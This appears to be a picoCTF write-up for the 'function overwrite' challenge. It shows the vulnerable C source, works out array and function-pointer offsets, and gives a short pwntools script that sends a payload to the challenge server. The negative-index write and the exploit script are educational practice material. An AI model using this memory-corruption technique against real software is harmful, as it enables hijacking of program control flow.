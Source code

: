 # function overwrite [Pwn]

Link : [function overwrite](https://play.picoctf.org/practice/challenge/272?category=6&originalEvent=70&page=2)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```


![checksec](datas/fovchecksec.png)

{{< admonition >}}

When I read the code, I realized that *check* points to *hard_checker*.

To exploit it, you would have to point *check* to *easy_checker*.

Then, you have to fill *story* with values whose sum is equal to *1337*
{{< /admonition >}}


*story* could be *abcdefghijklk*, the sum is indeed equal to *1337*.

To point *check* to *easy_checker*, I thought of  [Write-what-where Condition](https://www.martellosecurity.com/kb/mitre/cwe/123/)

*vuln()* fonction

```C
......
if (num1 < 10)
{
  fun[num1] += num2;
}
.....
```

We will use the integer array *fun* to access *check* in order to point it to *easy_checker*.

We will use the index num1 of the array *fun* to access *check* and num2 to modify its value.

First, we determine the offset between *fun* and *check* for *num1*.

![funcheck](datas/funcheck.png)

```
0x0804c040  check
0x0804c080  fun
```

```python
0x0804c080 - 0x0804c040 = 64
fun - check = 64
fun - 64 = check
```

To access *check* you have to subtract 64 from the address of *fun*.

As num1 is of type int, **num1 = -64/sizeof(int)**

![check](datas/check.png)

Second, we point *check* to *easy_checker*.

*check* points to *hard_checker*

To point it to *easy_checker*, we must first determine the offset between *hard_checker* and *easy_checker*.

```python
0x8049436 - 0x80492fc = 314
hard_checker - easy_checker = 314
hard_checker - 314 = easy_checker
```
So, to point *check* to *easy_checker* we have to subtract 314 from the address of *hard_checker*.
As *check* contains the address of *hard_checker*, we decrease its value by 314.

**num2 = -314**


Exploit:

```python
from pwn import *

sh = remote("saturn.picoctf.net",53163)
print(sh.recv().decode())
sh.sendline(b"abcdefghijklk")
print(sh.recv().decode())
sh.sendline(b"-16 -314")
print(sh.recv().decode())
```

Result:

![flag](datas/foverwrite.png)
